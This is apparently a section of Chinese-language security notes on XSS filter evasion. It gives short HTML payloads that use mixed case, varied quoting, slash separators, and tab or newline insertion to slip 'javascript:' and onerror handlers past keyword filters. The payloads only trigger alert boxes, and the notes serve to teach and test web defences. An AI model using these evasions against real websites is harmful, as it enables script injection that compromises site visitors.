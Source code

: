   ****

  ### 69. XSS变形

  #### (1)大小写转换

  * 将payload进行大小写转化

    ```html
    <img sRc='#' OnError="alert(/xss/)">
    <a hREf='JaVaScriPt:alert(/xss/)'>click me</a>
    ```

  #### (2)引号的使用

  * HTML对引号不敏感，但过滤函数对引号严格

    ```html
    <img src="#" onerror="alert(/xss/)" />
    <img src='#' onerror='alert(/xss/)' />
    <img src=# onerror=alert(/xss/) />
    ```

  #### (3)左斜线代替空格

  ```html
  <img src="#"/onerror="alert(/xss/)" />
  ```

  #### (4)回车的使用

  * 添加**水平制表符**和**回车符**来绕过关键字检测

  ```html
  	
  	<a href="javascript:alert(/xss/)">clike me</a> =>
  <!--水平制表符-->
  	<a href="j	a	v	a	s	c	r	i	p	t	:	alert(/xss/)">clike me</a>
  <!--回车符-->
  <a href="j
           a
           v
           a
           s
           c
           r
           i
           p
           t
           :alert(/xss/)">clike me</a>
  	<a href="javascript:alert(/xss/)">clike me</a>
  ```
